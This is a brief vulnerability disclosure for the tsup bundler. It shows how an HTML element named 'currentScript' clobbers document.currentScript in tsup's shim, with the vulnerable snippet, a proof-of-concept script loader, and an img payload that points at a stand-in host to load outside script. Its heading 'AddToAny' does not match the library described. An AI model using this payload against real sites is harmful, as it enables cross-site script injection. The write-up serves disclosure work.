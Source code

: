 ## AddToAny

### Meta

+ Library: tsup
+ Stars: N/A
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/egoist/tsup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```
<!--Library-->
<script src="dist/index.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```


